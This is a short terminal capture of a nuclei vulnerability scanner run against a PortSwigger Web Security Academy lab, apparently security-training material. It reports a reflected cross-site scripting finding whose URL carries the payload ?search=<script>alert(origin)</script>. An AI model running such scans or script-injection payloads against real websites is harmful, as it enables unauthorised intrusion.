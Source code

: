 nuclei -u https://0acb004e030c923080d50350004500c5.web-security-academy.net -t . -headless

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.2

                projectdiscovery.io

[INF] Current nuclei version: v3.4.2 (latest)
[INF] Current nuclei-templates version: v10.1.7 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 64
[INF] Templates loaded for current scan: 1
[WRN] Loading 1 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[reflected-xss-into-html-context-with-nothing-encoded] [headless] [high] https://0acb004e030c923080d50350004500c5.web-security-academy.net/?search=<script>alert(origin)</script>
